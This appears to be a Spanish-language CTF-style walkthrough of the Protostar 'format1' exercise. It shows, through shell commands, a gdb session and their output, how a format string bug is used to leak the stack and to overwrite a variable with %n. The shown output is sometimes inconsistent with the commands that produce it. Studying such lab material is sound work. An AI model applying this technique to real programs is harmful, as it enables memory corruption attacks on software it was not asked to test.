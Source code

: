 
---------------------------------------------------------------------------
## Sobreescribir una variable -> [format1](https://exploit.education/protostar/format-one/)

Este binario toma un argumento (al que llama "string"), lo mete en la funcion **printf()** y te imprime dicho argumento

  	```console
  	[user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA
  	AAA[user@protostar]-[/opt/protostar/bin]:$ 
  	```
Como no hace un salto de linea, lo ponemos nosotros concatenando "; echo"
  
	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA; echo
	AAA
    	[user@protostar]-[/opt/protostar/bin]:$ 
  	```
¿Si en vez de pasarle una "A" le pasamos una cadena de formateo como %x (numero hexadecimal)?
  
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 %x; echo
	804960c
   	[user@protostar]-[/opt/protostar/bin]:$ ./format1 "%x %x"; echo
   	804960c bffff6e8
  	```
 Este "bffff6e8" parece una direccion de la pila...
 
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ python -c "print('%x'*4)"  > /tmp/pattern
    	[user@protostar]-[/opt/protostar/bin]:$ gdb ./format1
    	(gdb) disas vuln
    	Dump of assembler code for function vuln:
    	0x080483f4 <vuln+0>:	push   %ebp
   	0x080483f5 <vuln+1>:	mov    %esp,%ebp
  	0x080483f7 <vuln+3>:	sub    $0x18,%esp
    	0x080483fa <vuln+6>:	mov    0x8(%ebp),%eax
    	0x080483fd <vuln+9>:	mov    %eax,(%esp)
    	0x08048400 <vuln+12>:	call   0x8048320 <printf@plt>
    	0x08048405 <vuln+17>:	mov    0x8049638,%eax
    	0x0804840a <vuln+22>:	test   %eax,%eax
    	0x0804840c <vuln+24>:	je     0x804841a <vuln+38>
    	0x0804840e <vuln+26>:	movl   $0x8048500,(%esp)
    	0x08048415 <vuln+33>:	call   0x8048330 <puts@plt>
    	0x0804841a <vuln+38>:	leave  
    	0x0804841b <vuln+39>:	ret    
    	End of assembler dump.
    	(gdb) b *0x08048400
   	(gdb) run < /tmp/pattern
  	Starting program: /opt/protostar/bin/format1 < /tmp/pattern
    	Breakpoint 4, 0x08048400 in vuln (string=0x0) at format1/format1.c:10
    	10	format1/format1.c: No such file or directory.
      	in format1/format1.c
    	(gdb) x/40wx $esp
    	0xbffff670:	0x00000000	0x0804960c	0xbffff6a8	0x08048469
    	0xbffff680:	0xb7fd8304	0xb7fd7ff4	0xbffff6a8	0x08048435
    	0xbffff690:	0x00000000	0xb7ff1040	0x0804845b	0xb7fd7ff4
    	0xbffff6a0:	0x08048450	0x00000000	0xbffff728	0xb7eadc76
    	0xbffff6b0:	0x00000001	0xbffff754	0xbffff75c	0xb7fe1848
    	0xbffff6c0:	0xbffff710	0xffffffff	0xb7ffeff4	0x0804824d
    	0xbffff6d0:	0x00000001	0xbffff710	0xb7ff0626	0xb7fffab0
    	0xbffff6e0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
    	0xbffff6f0:	0xbffff728	0x8160bf58	0xab35a948	0x00000000
    	0xbffff700:	0x00000000	0x00000000	0x00000001	0x08048340
  	```
    
Como podemos ver la segunda entrada de la pila es nuestro "0x0804960c" que se imprimió antes, es decir, prinf(%x) imprime contenido de la pila.

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*150 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
     	8048469
    	b7fd8304
    	b7fd7ff4
    	...
    	2e000000
    	726f662f
    	3174616d
    	41414100
    	42424241
    	7838252e
    	7838252e
  	```
   Nos está imrpimiendo muchos valores de la pila, en cierto momento, se ven "41" y "42", que equivalen a nuestras "A" y "B", seguidos de "7838252e"
   que son nuestras "%8x.". El objetivo, esque sean las A los útlimos valores que salgan, para eso hay que reducir las x u offset.
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	726f662f
    	3174616d
    	41414100
    	42424241
    	```
   El problema esque se han mezclado los 42 y los 41 (A)s y (B)s, y tiene que quedar perfecto, asi que se reduce el numero de "B"

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
   	bffff488
    	...
    	41414141
    	78382542
    	7838252e
    	7838252e
    	7838252e
    	```
   Se quitan mas "x"

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*168 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	2f2e0000
    	6d726f66
    	317461
    	41414141
    	```
  Perfecto, ya están alineados nuestras, "A". Pero ahora lo que interesa es cambiar esas "A" por otra cosa, la direccion de la varaible 
  que queremos modificar:
```console
[user@protostar]-[/opt/protostar/bin]:$ objdump -t ./format1 | grep "target"
08049638 g     O .bss	00000004              target
```
  La direccion de la variable "target" es *0x08049638* que si lo pasamos a endian (dar la vuelta a los bytes) sale -> *\x38\x96\x04\x08*
  Ahora sustituimos las "AAAA" por esa dirección (ambas cosas ocupan 4 bytes).
```console
[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%x')") | tr "." "\n" ;echo
AAAABBBB 804960c
bffff488
...
317461
8049638
```
  Perfecto, la dirección de memoria se ha alineado perfectamente. Ahora hay que sobrrescribirla cambiando la "%x" por "%n"
  
```console
[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%n')") | tr "." "\n" ;echo
AAAABBBB 804960c
bffff488
...
317461
you have modified the target :)
```
  Y ya está, primer format completado.

  
    
   
